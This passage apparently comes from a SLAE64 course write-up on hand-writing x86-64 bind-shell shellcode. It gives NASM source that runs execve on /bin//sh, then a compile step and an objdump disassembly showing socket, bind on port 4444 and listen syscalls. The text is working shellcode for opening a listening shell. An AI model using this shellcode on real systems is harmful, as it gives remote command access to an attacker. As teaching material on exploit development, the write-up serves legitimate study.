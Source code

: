 ```nasm
	; first null push
	xor rax, rax
	push rax

	; push /bin//sh in reverse
	mov rbx, 0x68732f2f6e69622f
	push rbx

	; store /bin//sh address in RDI
	mov rdi, rsp

	; second null push
	push rax

	; set RDX
	mov rdx, rsp

	; push address pf /bin//sh
	push rdi
	
	; set RSI
	mov rsi, rsp

	; call execve
	add rax, 59
	syscall
```

In order to view those `0x00` we compile `bind-shellcode-course.nasm` and use the `objdump` program, which displays information from object files, by displaying assembler contents and instructions in Intel syntax.

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/1_Shell_bind_tcp$ ./compile.sh bind-shellcode-course
[+] Assembling with Nasm ... 
[+] Linking ... 
[+] Done!
geobour98@slae64-dev:~/SLAE/custom/SLAE64/1_Shell_bind_tcp$ objdump -d ./bind-shellcode-course -M intel

./bind-shellcode-course:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080:	b8 29 00 00 00       	mov    eax,0x29
  400085:	bf 02 00 00 00       	mov    edi,0x2
  40008a:	be 01 00 00 00       	mov    esi,0x1
  40008f:	ba 00 00 00 00       	mov    edx,0x0
  400094:	0f 05                	syscall 
  400096:	48 89 c7             	mov    rdi,rax
  400099:	48 31 c0             	xor    rax,rax
  40009c:	50                   	push   rax
  40009d:	89 44 24 fc          	mov    DWORD PTR [rsp-0x4],eax
  4000a1:	66 c7 44 24 fa 11 5c 	mov    WORD PTR [rsp-0x6],0x5c11
  4000a8:	66 c7 44 24 f8 02 00 	mov    WORD PTR [rsp-0x8],0x2
  4000af:	48 83 ec 08          	sub    rsp,0x8
  4000b3:	b8 31 00 00 00       	mov    eax,0x31
  4000b8:	48 89 e6             	mov    rsi,rsp
  4000bb:	ba 10 00 00 00       	mov    edx,0x10
  4000c0:	0f 05                	syscall 
  4000c2:	b8 32 00 00 00       	mov    eax,0x32
  4000c7:	be 02 00 00 00       	mov    esi,0x2
```